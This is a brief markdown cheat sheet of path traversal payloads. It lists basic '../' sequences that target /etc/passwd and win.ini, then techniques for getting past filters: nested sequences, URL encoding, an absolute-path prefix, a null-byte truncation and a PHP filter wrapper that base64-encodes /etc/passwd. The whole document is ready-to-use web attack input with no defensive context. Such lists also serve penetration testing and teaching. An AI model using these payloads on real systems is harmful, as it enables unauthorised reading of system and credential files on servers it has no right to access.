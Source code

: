 # Path Traversal Cheat Sheet
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
```txt
Sequence block bypass >> ....//....//....//....//etc/passwd
Encoding ../ >> %2e%2e%2f
Absolute path >> /var/www/images/../../../etc/passwd
Using null byte >> ../../../etc/passwd%00.png
Using PHP wrappers >> php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D%2Fetc%2Fpasswd
```
